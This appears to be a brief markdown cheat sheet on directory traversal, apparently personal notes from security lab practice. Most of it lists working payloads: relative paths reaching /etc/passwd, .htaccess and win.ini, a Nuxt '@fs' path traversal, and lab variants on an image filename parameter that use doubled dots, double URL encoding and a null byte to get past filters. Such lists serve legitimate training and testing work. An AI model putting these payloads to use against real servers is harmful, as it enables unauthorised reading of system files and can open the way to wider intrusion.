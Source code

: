 # What is directory traversal
Allows read files in a server

## How to find
- Identify instances with common directory traversal
```bash
../../../../etc/passwd
../../../.htaccess
\..\WINDOWS\win.ini
\..\..\WINDOWS\win.ini
```

## Path Traversal in nuxt
```bash
/nuxt/@fs/etc/passwd
```

## Payloads used in lab
```bash
/image?filename=/../../../../../../../../etc/passwd
/image?filename=/../../../../../../../../etc/passwd
GET /image?filename=/etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
/var/www/images/../../../../../../../../../../../etc/passwd 
../../../etc/passwd%00.png

```
